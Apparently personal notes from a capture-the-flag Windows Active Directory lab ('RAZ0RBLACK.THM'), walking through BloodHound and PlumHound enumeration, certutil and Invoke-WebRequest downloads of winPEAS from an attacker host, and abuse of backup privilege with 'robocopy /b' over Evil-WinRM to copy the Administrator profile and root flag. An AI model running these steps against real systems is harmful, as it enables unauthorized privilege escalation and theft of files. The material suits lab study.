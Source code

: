We u recall we have run the blood hound earlier and got some place in our disposal otherwise
simply we can try to run winpeas as we were not able to run in the vulnet bix earlier
```
certutil.exe -urlcache -f http://10.8.167.78:8080/winPEASx64_ofs.exe winPEASx64_ofs.exe

$URL ="http://10.8.167.78:8080/winPEASx64_ofs.exe"

$Path="C:\Users\xyan1d3\winPEASx64_ofs.exe"

Invoke-WebRequest -URI $URL -OutFile $Path
```
![[Pasted image 20230921171843.png]]


Bloodhound Enumeration
![[Pasted image 20230921164436.png]]

All Domains
![[Pasted image 20230921164615.png]]


![[Pasted image 20230921170150.png | 500]]


![[Pasted image 20230921170224.png | 500 ]]

![[Pasted image 20230921170507.png]]
This will some idea what the network looks like

Shortest Path
![[Pasted image 20230921170627.png]]

Plumhound
```
https://github.com/PlumHound/PlumHound.git
python3 PlumHound.py --easy -p password
python3 PlumHound.py -x tasks/default.tasks -p password
RAZ0RBLACK.THM	2016	True	RAZ0RBLACK.THM	DC=RAZ0RBLACK,DC=THM	S-1-5-21-3403444377-2687699443-13012745
```
![[Pasted image 20230921173253.png]]

![[Pasted image 20230921173322.png]]

![[Pasted image 20230921173756.png]]

![[Pasted image 20230921175907.png]]
We can do backup of all the senstive files and restore it

We will simply copy the root.xml file from Administrator to a temp file using a tool called robocop
https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/robocopy

```
robocopy /b C:\Users\Administrator\root.xml C:\Temp
```
![[Pasted image 20230921180339.png]]

```
*Evil-WinRM* PS C:\Users\xyan1d3> robocopy /b C:\Users\Administrator\root.xml C:\Temp

-------------------------------------------------------------------------------
   ROBOCOPY     ::     Robust File Copy for Windows
-------------------------------------------------------------------------------

  Started : Thursday, September 21, 2023 5:34:13 AM
   Source : C:\Users\Administrator\root.xml\
     Dest : C:\Temp\

    Files : *.*

  Options : *.* /DCOPY:DA /COPY:DAT /B /R:1000000 /W:30

------------------------------------------------------------------------------

2023/09/21 05:34:13 ERROR 123 (0x0000007B) Accessing Source Directory C:\Users\Administrator\root.xml\
The filename, directory name, or volume label syntax is incorrect.

*Evil-WinRM* PS C:\Users\xyan1d3> robocopy /b C:\Users\Administrator C:\Temp

-------------------------------------------------------------------------------
   ROBOCOPY     ::     Robust File Copy for Windows
-------------------------------------------------------------------------------

  Started : Thursday, September 21, 2023 5:35:30 AM
   Source : C:\Users\Administrator\
     Dest : C:\Temp\

    Files : *.*

  Options : *.* /DCOPY:DA /COPY:DAT /B /R:1000000 /W:30

------------------------------------------------------------------------------

          New Dir          9    C:\Users\Administrator\
            New File                 290        cookie.json
  0%
100%
            New File              786432        NTUSER.DAT
  0%
  8%
 16%
 25%
 33%
 41%
 50%
 58%
 66%
 75%
 83%
 91%
100%
100%
            New File                   0        ntuser.dat.LOG1
100%
            New File              237568        ntuser.dat.LOG2
  0%
 27%
 55%
 82%
100%
            New File               65536        NTUSER.DAT{1c3790b4-b8ad-11e8-aa21-e41d2d101530}.TM.blf
  0%
100%
100%
            New File              524288        NTUSER.DAT{1c3790b4-b8ad-11e8-aa21-e41d2d101530}.TMContainer00000000000000000001.regtrans-ms
  0%
 12%
 25%
 37%
 50%
 62%
 75%
 87%
100%
100%
            New File              524288        NTUSER.DAT{1c3790b4-b8ad-11e8-aa21-e41d2d101530}.TMContainer00000000000000000002.regtrans-ms
  0%
 12%
 25%
 37%
 50%
 62%
 75%
 87%
100%
100%
            New File                  20        ntuser.ini
  0%
100%
            New File                2512        root.xml
  0%
100%

------------------------------------------------------------------------------

               Total    Copied   Skipped  Mismatch    FAILED    Extras
    Dirs :         1         1         0         0         0         0
   Files :         9         9         0         0         0         0
   Bytes :    2.04 m    2.04 m         0         0         0         0
   Times :   0:00:00   0:00:00                       0:00:00   0:00:00


   Speed :             6840044 Bytes/sec.
   Speed :             391.390 MegaBytes/min.
   Ended : Thursday, September 21, 2023 5:35:30 AM

*Evil-WinRM* PS C:\Users\xyan1d3> ls C:\Temp


    Directory: C:\Temp


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        2/25/2021   1:08 PM            290 cookie.json
-a----        2/25/2021   1:12 PM           2512 root.xml


```
